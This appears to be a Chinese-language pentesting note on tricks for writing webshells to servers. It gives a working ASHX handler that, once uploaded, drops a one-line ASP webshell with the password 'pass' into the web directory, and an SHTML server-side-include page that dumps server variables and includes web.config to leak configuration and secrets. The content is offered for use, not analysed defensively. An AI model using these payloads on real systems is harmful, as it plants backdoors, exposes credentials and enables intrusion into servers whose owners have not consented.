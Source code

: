 # 写shell技巧

## ashx写入

ashx脚本，服务器有.net环境但aspx被禁止上传时适用。这个执行后会在当前目录下生成webshell.asp一句话木马，密码是pass 也可以写入其它文件

```as
<%@ WebHandler Language="C#" class="Handler"% >
using System;
using System.Web;
using System.IO;
public class Handler:IHttpHandler {
 
public void ProcessRequest (HttpContext context) {
    context.Response.ContentType = "text/plain";
    StreamWriter file = File.CreateText(context.Server.MapPath("webshell.asp")));
    file.Write("<%eval request(\"pass\")%>");
    file.Flush();
    file.Close();
    context.Response.Write("www.webshell.cc");
}
 
public bool IsReusable {
    get {
        return false;
    }
}
}
```



## 别忘了shtml

stm/shtm/shtml脚本，虽然不能直接拿到webshell，但是可以获取到一些服务器信息。注意stm中的include可以将web.config文件中的内容包含进来

```html
<!--#ECHO var="ALL_HTTP"-->
当前文件名称:<!--#ECHO var="DOCUMENT_NAME"-->
Web服务器的名称和版本:<!--#ECHO var="SERVER_SOFTWARE"-->
主机名:<!--#ECHO var="SERVER_NAME"-->
端口:<!--#ECHO var="SERVER_PORT"-->
客户或客户代理IP地址:<!--#ECHO var="REMOTE_ADDR"-->
客户或客户代理主机名:<!--#ECHO var="REMOTE_HOST"-->
PATH_INFO 的值，但带有扩展为某个目录规范的虚拟路径:
<!--#ECHO var="PATH_TRANSLATED"-->
客户端给出附加路径信息:<!--#ECHO var="PATH_INFO"-->
<!--#ECHO var="HTTP_ACCEPT"-->
<!--#ECHO var="DOCUMENT_URI"-->
<!--#include file="../../web.config"-->
```



https://www.t00ls.net/viewthread.php?tid=21318

